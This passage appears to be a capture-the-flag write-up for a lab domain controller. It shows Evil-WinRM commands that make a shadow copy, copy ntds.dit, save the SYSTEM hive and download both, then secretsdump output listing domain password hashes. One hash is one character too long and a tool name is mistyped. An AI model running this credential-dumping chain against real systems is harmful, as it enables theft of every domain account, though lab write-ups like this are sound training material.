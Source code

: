 ```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> upload backup.txt
```

Now create a **shadow copy** using diskshadow utility.

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> diskshadow /s backup.txt
```

- `/s` for script file path

<img alt="abc"  alt="abc"  src="https://i.imgur.com/LJJ9lP2.png">

When shadow copy created successfully. Now we have to extract **ntds.dit** file from the network drive. For this we will use **robocopy** utility.
```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> robocopy /b E:\Windows\ntds . ntds.dit
``` 

- `/b` for source file path.

<img alt="abc"  alt="abc"  src="https://i.imgur.com/hXMg3Hr.png">

We extract the ntds.dit file sccessfully, now we need a decryption key to decrypt the ntds.dit file extract the password hashes form it. we will use `reg save` command for that
```powershell 
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> reg save hklm\system system.bak
```

Now we have both **ntds.dit** file and the decryption key used to decrypt it. Let's download it to our local attacking machine using download functionality of evilwinrm.

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> download ntds.dit
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> download system.bak
```

<img alt="abc"  alt="abc"  src="https://i.imgur.com/kxjBkQq.png">

#### Secretsdump.py 

**SecretsDump.py** is a Python tool by Impacket that can extract secrets from targets. **SecretsDump.py** performs various techniques to dump hashes from the remote machine without executing any agent there. For **SAM** and **LSA** Secrets (including cached creds) it tries to read as much as it can from the **registry** and then saves the hives in the target system `(%SYSTEMROOT%\Temp dir)` and reads the rest of the data from there. For **NTDS.dit** it uses the **Volume Shadow Copy Service** to read **NTDS.dit** directly from the disk or it can use the parser module to read NTDS.dit files from a copy.

```bash
$ ecretsdump.py -ntds ntds.dit -system system.bak -hashes lmhash:nthash LOCAL
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Target system bootKey: 0x191d5d3fd5b0b51888453de8541d7e88
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 41d56bf9b458d01951f592ee4ba00ea6
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ee4457ae59f1e3fbd764e34532cef123d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BABYDC$:1000:aad3b435b51404eeaad3b435b51404ee:819314344a7420f304b924c18936f2a6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:6da4842e8c24b99ad21a92d620893884:::
baby.vl\Jacqueline.Barnett:1104:aad3b435b51404eeaad3b435b51404ee:20b8853f7aa61297bfbc5ed2ab34aed8:::
baby.vl\Ashley.Webb:1105:aad3b435b51404eeaad3b435b51404ee:02e8841e1a2c6c0fa1f0becac4161f89:::
baby.vl\Hugh.George:1106:aad3b435b51404eeaad3b435b51404ee:f0082574cc663783afdbc8f35b6da3a1:::
baby.vl\Leonard.Dyer:1107:aad3b435b51404eeaad3b435b51404ee:b3b2f9c6640566d13bf25ac448f560d2:::
baby.vl\Ian.Walker:1108:aad3b435b51404eeaad3b435b51404ee:0e440fd30bebc2c524eaaed6b17bcd5c:::
baby.vl\Connor.Wilkinson:1110:aad3b435b51404eeaad3b435b51404ee:e125345993f6258861fb184f1a8522c9:::
```